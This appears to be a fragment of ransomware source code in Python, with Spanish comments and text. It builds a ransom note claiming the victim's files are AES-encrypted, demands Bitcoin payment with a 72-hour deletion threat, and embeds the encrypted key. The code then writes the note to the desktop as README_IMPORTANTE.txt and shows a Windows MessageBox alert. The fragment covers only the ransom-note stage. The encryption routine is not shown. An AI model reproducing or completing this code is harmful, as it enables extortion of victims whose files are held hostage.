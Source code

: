 ```python
    note = f"""===========================
    ¡TUS ARCHIVOS HAN SIDO CIFRADOS!
===========================

Todos tus documentos, imágenes, bases de datos y otros archivos importantes han sido cifrados con AES-CBC.
No puedes acceder a ellos ni recuperarlos sin nuestra ayuda.

----------------------------
 ¿CÓMO RECUPERAR TUS ARCHIVOS?
----------------------------
1. Envíanos el pago en Bitcoin (BTC) a la siguiente dirección:
   [DIRECCIÓN BITCOIN]

2. Envía un correo a [EMAIL] con el comprobante de pago y tu ID de víctima:
   ID DE VÍCTIMA: [ID_UNICO]

3. Una vez confirmado el pago, recibirás la clave y el software de descifrado.

----------------------------
 ¡ADVERTENCIAS!
----------------------------
- No intentes modificar o recuperar archivos por tu cuenta. 
- Cualquier intento de descifrado sin nuestra clave puede dañar los archivos de manera irreversible.
- Si el pago no se realiza en 72 horas, los archivos serán eliminados permanentemente.
----------------------------
 🔐 INFORMACIÓN SOBRE TU CLAVE 🔐
----------------------------
- Tu clave de descifrado está protegida y cifrada de manera segura.
- Aquí tienes la versión cifrada de tu clave (NO INTENTES MODIFICARLA):

{aes_key_encrypted_b64}

Atentamente, 
[Nombre del grupo de hackers]
"""

    # Guardar la nota de rescate en un archivo de texto en el escritorio
    ruta_nota = os.path.join(desktop, "README_IMPORTANTE.txt")
    with open(ruta_nota, "w") as archivo:
        archivo.write(note)

    # Mostrar mensaje emergente con Windows MessageBox
    ctypes.windll.user32.MessageBoxW(
        0, "¡Tus archivos han sido cifrados! Lee el archivo README_IMPORTANTE.txt en tu escritorio.", 
        "ALERTA DE SEGURIDAD", 0x10 | 0x1
    )

    print(f"Nota de rescate creada en: {ruta_nota}")

# Llamar a la función
mostrar_nota_rescate()
```
